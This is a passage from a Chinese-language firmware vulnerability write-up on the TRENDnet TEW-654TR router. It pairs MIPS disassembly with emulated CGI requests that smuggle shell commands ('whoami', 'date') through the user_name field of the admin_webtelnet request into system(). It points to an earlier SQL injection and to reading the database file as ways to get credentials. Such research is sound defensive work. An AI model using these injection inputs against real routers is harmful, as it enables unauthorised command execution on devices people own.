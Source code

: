 	.text:00415368                 la      $t9, system
	.text:0041536C                 nop
	.text:00415370                 jalr    $t9 ; system
	.text:00415374                 move    $a0, $s0
	.text:00415378                 lw      $gp, 0x28+var_18($sp)
	.text:0041537C                 lw      $ra, 0x28+var_8($sp)
	.text:00415380                 la      $a0, loc_410000
	.text:00415384                 la      $t9, set_redirect_page
	.text:00415388                 lw      $s1, 0x28+var_C($sp)
	.text:0041538C                 lw      $s0, 0x28+var_10($sp)
	.text:00415390                 addiu   $a0, (aAdminWebtelnet - 0x410000)  # "admin_webtelnet"
	.text:00415394                 jr      $t9 ; set_redirect_page
	.text:00415398                 addiu   $sp, 0x28


首先还是从前面可以看到这里是要匹配admin_webtelnet的值，但如果输入admin_webtelnet就过不去前面的登录判断，所以要达到利用这个前提还是需要先登录然后才能进行后面的操作。至于怎么登录，可以通过前面的sql注入或者后面将会写的直接读取数据库文件获取用户名和密码。这里在操作的时候可以直接控制寄存器的值模拟登录后的情况。

	root@tearorca:~/f/测试/tew-654tr/FW_TEW-654TR_v1.0R(1.10.12)/_TEW-654TRA1_FW110B12.bin.extracted/squashfs-root#./run_cgi.sh "request=admin_webtelnet&user_name=admin&user_pwd=password"

在这里把v0的值改为0

![](<https://ws1.sinaimg.cn/large/7fb67c86ly1g6ca45fv42j210u0jiakk.jpg>)

可以看到经过sprintf之后，输入的值变为了用户名。因为第二个参数为$s1+0x299也就是user_name=后面的值。

	.text:00415354 addiu $a2, $s1, 0x299

![](<https://ws1.sinaimg.cn/large/7fb67c86ly1g6ca4h80b6j210l0jr130.jpg>)

再换一个实际一点的

	root@tearorca:~/f/测试/tew-654tr/FW_TEW-654TR_v1.0R(1.10.12)/_TEW-654TRA1_FW110B12.bin.extracted/squashfs-root#./run_cgi.sh "request=admin_webtelnet&user_name=whoami&user_pwd=password"

![](<https://ws1.sinaimg.cn/large/7fb67c86ly1g6ca4we9h7j210o0k1135.jpg>)

	root@tearorca:~/f/测试/tew-654tr/FW_TEW-654TR_v1.0R(1.10.12)/_TEW-654TRA1_FW110B12.bin.extracted/squashfs-root#./run_cgi.sh "request=admin_webtelnet&user_name=date&user_pwd=password"

![](<https://ws1.sinaimg.cn/large/7fb67c86ly1g6ca5acmeyj210g0k17el.jpg>)

### **获取用户名和密码**

再往前看看主函数，可以看到有一段打开db文件的代码，db文件是数据库文件，意识是这里打开了数据库的某个文件并进行了一些操作。

	.text:00409460                                          # main+214↑j
	.text:00409460                 blez    $s1, loc_409938
	.text:00409464                 lui     $s0, 2
	.text:00409468                 la      $t9, open_db
	.text:0040946C                 ori     $a0, $s0, 0xE5F0
	.text:00409470                 jalr    $t9 ; open_db
	.text:00409474                 addu    $a0, $s3, $a0
	.text:00409478                 lw      $gp, 0x2E6F0+var_2E6E0($sp)
	.text:0040947C                 nop
	.text:00409480                 la      $v1, my_db
	.text:00409484                 beqz    $v0, loc_40914C

